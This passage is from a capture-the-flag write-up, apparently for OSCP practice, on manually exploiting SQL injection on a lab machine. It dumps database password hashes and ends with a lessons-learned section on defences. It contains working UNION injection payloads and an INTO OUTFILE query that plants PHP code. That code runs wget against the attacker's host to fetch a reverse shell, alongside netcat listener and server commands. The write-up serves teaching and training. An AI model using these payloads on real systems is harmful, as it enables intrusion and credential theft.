## Extra Content \(Manual Exploitation\) <a id="24e2"></a>

Since SQLMap is not allowed on the OSCP, let’s try to get initial access without having to use it.

We suspect that the application is vulnerable to SQL injection because of the way it responded to the _sleep\(\)_ command. In order to verify our suspicion, we need to first deduce the structure of the SQL query that is running in the backend and then exploit it.

**Step 1 — Column Enumeration**

The first thing in figuring out the structure of a SQL query is determining how many columns the query is using. This can be done using the SQL ORDER BY keyword.

The following is a sample SQL statement.

```text
Select * FROM table
ORDER BY column-name
```

The above statement prints out all the columns in the table “table” and orders the result based on the column “column-name”. The interesting thing about ORDER BY is that you can use an integer instead of a column name.

```text
Select * FROM table
ORDER BY 1
```

So the above statement prints out all the columns in the table “table” and orders the result based on the first column in the table. How can we abuse that? Well, what happens when we try to order by a column that does not exist? It’s one of two options — either the application starts behaving weirdly or it throws an error based on the validation that is being done at the backend.

So in order to enumerate the number of columns, we’ll incrementally use the ORDER BY keyword until the application either throws an error or no longer gives us a result.

Let’s try that on our target application.


Based on the output of the page, the query is using at least six columns: id \(likely cod\), rating, image URL, image title, price and room description. Let’s confirm that using the ORDER BY keyword.


We still get an image so we know for sure that the query is using at least 6 columns. Next, let’s try 7 columns.

```text
http://10.10.10.143/room.php?cod=1%20order%20by%207
```

Same result. Let’s move on to 8.


We get nothing! So now we’re sure that the query is using exactly 7 columns. The next thing to do is determine which of these columns are getting outputted on the page. The reason for that will become clear in step 3.

**Step 2 — Column Presentation and Type**

To determine where the column result is being outputted on the page, you can use the SQL UNION operator.

The following is a sample query.

```text
SELECT column-name-1 FROM table1
UNION
SELECT column-name-2 FROM table2;
```

The above statement first does select on “column-name-1” from “table1” and then does a select on “column-name-2” from “table-2” and uses the UNION operator to combine the results of the two select statements. Note that the number of columns have to be the same in both select statements for the query to work.

Now consider the following select statement.

```text
SELECT column-name-1 FROM table1
UNION
SELECT 1
```

The first select statement does a query on “column-name-1” from “table1” and the second select statement simply prints out the value 1. The union of these two statements is the combination of the results. Depending on certain conditions such as matching data types of the columns, the above query might generate an error. So keep that in mind.

Back to our target application, let’s try the union statement.


We get the output of the first select statement, but not the second. A possible reason is that the application only prints one entry at a time. So let’s modify our query to give the first select statement a _cod_ value that doesn’t exist so that it prints out the result from the second statement.


Perfect, now we know which columns correspond to the elements in the page. The second parameter of the select statement was originally “Superior Family Room” so we know the data type of that row is probably string. Since we are going to retrieve backend information that is in string format, we will work with the second parameter.

**Step 3— Retrieve Backend Information**

[Pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) has a list of useful queries that can be used to enumerate the database. For example, you can use the “_SELECT @@version_” query in order to find the database version information.


Now we know it’s using MariaDB version 10.1.37. Next, let’s use the following command to print out the list of password hashes.

```text
SELECT host, user, password FROM mysql.user
```


We get nothing because we’re querying more than one column in the sub select query. Let’s verify that by just outputting the password column.

```text
SELECT password FROM mysql.user
```


We get a hash! In order to output multiple columns, you can use the group\_concat\(\) function.

```text
SELECT group_concat(host,user,password) FROM mysql.user
```


It worked! Now we know that the database is running on localhost, the user is DBadmin and the hash is 2D2B7A5E4E637B8FBA1D17F40318F277D29964D0. We can crack the hash quickly using [crackstation.net](https://crackstation.net/).


This is the manual version of how SQLMap found and cracked the password when we passed the “ — passwords” flag to it.

There’s another way of doing all of this using the LOAD\_FILE\(\) function. You simply pass in a file path and if MySQL has the permission to read it, it will be outputted on the screen.


This shows how dangerous it would be if MySQL was running as root. We would have been able to enumerate sensitive files on the system such as the /etc/shadow file. Unfortunately, that’s not the case for this box.

**Step 4— Command Execution**

Alright, the last step is to get command execution. Just like we can add the value “1” using a select statement, we can also add php code. However, we need to save that code into a file and then somehow call the file and execute the code.

First, get the php-reverse-shell script from [pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and make the relevant changes.

Second, set up a listener on your attack machine to receive that reverse shell.

```text
nc -nlvp 1234
```

Third, exploit the SQL injection to add php code into a file on the system. This involves two steps: \(1\) add php code that downloads the reverse shell script from the attack machine and saves it in a file on the target system, and \(2\) save the output of the query into a PHP file using the MYSQL INTO OUTFILE statement.

```text
9999 union select 1,(select '<?php exec(\"wget -O /var/www/html/shell.php http://10.10.14.12:5555/php-reverse-shell.php\");?>'),3,4,5,6,7 INTO OUTFILE '/var/www/html/test4.php'
```

What the above query does, is it saves the entire query \(including the PHP code\) into the file /var/www/html/test4.php. This is the root directory of the web server. So when we call the test4.php script, it will execute the php code that we included in our select statement and download the reverse shell.

Since the php code downloads the script from our attack machine, we first need to set up a simple python server.

```text
python -m SimpleHTTPServer 5555
```

Then execute the script by calling it in the browser.

```text
http://10.10.10.143/test4.php
```

We can see that a GET request to the php-reverse-shell script was made on the python sever. This means that the php code executed. So far so good. The wget statement above downloads the file and saves it in the root directory with the file name shell.php. Therefore, to run our shell script, call it in the browser.

```text
http://10.10.10.143/shell.php
```

We get a shell!


This is the manual version of how SQLMap probably got a shell on the target system when we added the “ — os-shell” ****flag.

**Note:** Ippsec has a [great video](https://www.youtube.com/watch?v=YHHWvXBfwQ8) explaining how to manually exploit SQL injections. It’s slightly different than the methodology that I used but covers many other concepts.

## Lessons Learned <a id="3185"></a>

To gain an initial foothold on the box we exploited one vulnerability.

1. SQL Injection. SQL injection occurs when the application takes in user input and interprets and runs that input as SQL commands. This is a result of insufficient input validation. To prevent this vulnerability from occurring, there are [many defenses ](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)that can be put in place, including but not limited to the use of parametrized queries.

To escalate privileges we exploited two vulnerabilities.

1. Command injection & SUID misconfiguration. The simpler.py file had the SUID bit configured and the file was used to run system commands. Although the application did validate user input by blacklisting a set of characters, we were able to bypass validation by using the $ character to get a privileged shell. To prevent this vulnerability from occurring, there are [many defenses](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html) that can be put in place, including but not limited to the use of libraries or APIs as an alternative to calling OS commands directly. Similarly, when setting the SUID bit, administrators should carefully analyze their SUID/GUID applications to determine if they legitimately require elevated permissions.
2. Security misconfiguration of the vi binary. A non-root user was given the ability to run vi with root privileges. Since vi has the ability of running a shell, we were able to exploit that to get a shell with root privileges. Again, the administrator should have conformed to the principle of least privilege.

